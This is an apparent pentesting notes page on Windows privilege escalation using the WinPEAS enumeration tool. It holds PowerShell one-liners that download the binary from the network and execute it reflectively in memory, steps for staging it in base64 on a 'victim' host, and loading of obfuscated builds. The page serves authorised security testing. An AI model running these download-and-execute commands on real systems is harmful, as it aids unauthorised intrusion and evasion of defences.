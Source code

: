 ```yaml
---
description: >-
  Privilege Escalation consists of techniques that adversaries use to gain
  higher-level permissions on a system or network.
---
```


# Privilege Escalation

<mark style="background-color:red;">This chapter is in-progress.</mark>

<mark style="color:blue;">Check the index on the right to navigate this page more easily.</mark>

## WinPEAS

{% hint style="info" %}
Official Link: [https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

Color Legend:

* Red = special privilege is misconfigured
* Green = some protection is enabled or something is well configured
* Cyan = active user
* Blue = disabled users
* Light Yellow = indicates links
{% endhint %}

Download the [**latest obfuscated and not obfuscated versions from here**](https://github.com/peass-ng/PEASS-ng/releases/latest) or **compile it yourself** (read instructions for compilation).

```powershell
# Get latest release
$url = "https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# One liner to download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

# Before cmd in 3 lines
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Load from disk in memory and execute:
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS.exe")));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Load from disk in base64 and execute
##Generate winpeas in Base64:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("D:\Users\user\winPEAS.exe")) | Out-File -Encoding ASCII D:\Users\user\winPEAS.txt
##Now upload the B64 string to the victim inside a file or copy it to the clipboard

 ##If you have uploaded the B64 as afile load it with:
$thecontent = Get-Content -Path D:\Users\victim\winPEAS.txt
 ##If you have copied the B64 to the clipboard do:
$thecontent = "aaaaaaaa..." #Where "aaa..." is the winpeas base64 string
##Finally, load binary in memory and execute
$wp = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($thecontent))
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Loading from file and executing a winpeas obfuscated version
##Load obfuscated version
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS-Obfuscated.exe")));
$wp.EntryPoint #Get the name of the ReflectedType, in obfuscated versions sometimes this is different from "winPEAS.Program"
[<ReflectedType_from_before>]::Main("") #Used the ReflectedType name to execute winpeas
```

#### Parameter Examples

```powershell
winpeas.exe -h # Get Help
winpeas.exe # run all checks (except for additional slower checks - LOLBAS and linpeas.sh in WSL) (noisy - CTFs)
winpeas.exe systeminfo userinfo # Only systeminfo and userinfo checks executed
winpeas.exe notcolor # Do not color the output
winpeas.exe domain # enumerate also domain information
winpeas.exe wait # wait for user input between tests
winpeas.exe debug # display additional debug information
winpeas.exe log # log output to out.txt instead of standard output
winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh # Execute also additional linpeas check (runs linpeas.sh in default WSL distribution) with custom linpeas.sh URL (if not provided, the default URL is: https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/linPEAS/linpeas.sh)
winpeas.exe -lolbas  # Execute also additional LOLBAS search check
```

### Where are my COLORS?!?!?!

The **ouput will be colored** using **ansi** colors. If you are executing `winpeas.exe` **from a Windows console**, you need to set a registry value to see the colors (and open a new CMD):

```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

\

